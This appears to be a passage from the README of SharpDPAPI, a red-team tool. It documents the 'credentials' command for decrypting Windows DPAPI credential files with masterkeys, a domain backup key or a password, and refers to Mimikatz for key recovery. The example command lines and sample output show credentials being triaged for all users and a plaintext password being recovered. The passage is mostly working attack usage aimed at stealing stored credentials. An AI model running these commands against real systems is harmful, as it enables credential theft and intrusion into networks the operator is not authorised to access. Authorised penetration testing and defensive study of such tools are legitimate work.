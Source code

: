 The **credentials** command will search for Credential files and either a) decrypt them with any "{GUID}:SHA1" masterkeys passed, b) a `/mkfile:FILE` of one or more {GUID}:SHA1 masterkey mappings, c) use a supplied DPAPI domain backup key (`/pvk:BASE64...` or `/pvk:key.pvk`) to first decrypt any user masterkeys (a la **masterkeys**), or d) a `/password:X` to decrypt any user masterkeys, which are then used as a lookup decryption table. DPAPI GUID mappings can be recovered with Mimikatz' `sekurlsa::dpapi` command.

A specific credential file (or folder of credentials) can be specified with `/target:FILE` or `/target\Folder\`. If a file is specified, {GUID}:SHA1 values are required, and if a folder is specified either a) {GUID}:SHA1 values must be supplied or b) the folder must contain DPAPI masterkeys and a /pvk domain backup key must be supplied.

If run from an elevated context, Credential files for ALL users will be triaged, otherwise only Credential files for the current user will be processed.

Using domain {GUID}:SHA1 masterkey mappings:

 C:\Temp>SharpDPAPI.exe credentials {44ca9f3a-9097-455e-94d0-d91de951c097}:9b049ce6918ab89937687...(snip)... {feef7b25-51d6-4e14-a52f-eb2a387cd0f3}:f9bc09dad3bc2cd00efd903...(snip)...

 __ _ _ _ ___
 (_ |_ _. ._ ._ | \ |_) /\ |_) |
 __) | | (_| | |_) |_/ | /--\ | _|_
 |
 v1.2.0


 [*] Action: User DPAPI Credential Triage

 [*] Triaging Credentials for ALL users


 Folder : C:\Users\harmj0y\AppData\Local\Microsoft\Credentials\

 CredFile : 48C08A704ADBA03A93CD7EC5B77C0EAB

 guidMasterKey : {885342c6-028b-4ecf-82b2-304242e769e0}
 size : 436
 flags : 0x20000000 (CRYPTPROTECT_SYSTEM)
 algHash/algCrypt : 32772/26115
 description : Local Credential Data

 LastWritten : 1/22/2019 240 AM
 TargetName : Domain:target=TERMSRV/10.4.10.101
 TargetAlias :
 Comment :
 UserName : DOMAIN\user
 Credential : Password!

 ...(snip)...


Using a domain DPAPI backup key to first decrypt any discoverable masterkeys:

 C:\Temp>SharpDPAPI.exe credentials /pvk:HvG1sAAAAAABAAAAAAAAAAAAAAC...(snip)...

 __ _ _ _ ___
 (_ |_ _. ._ ._ | \ |_) /\ |_) |
 __) | | (_| | |_) |_/ | /--\ | _|_
 |
 v1.2.0
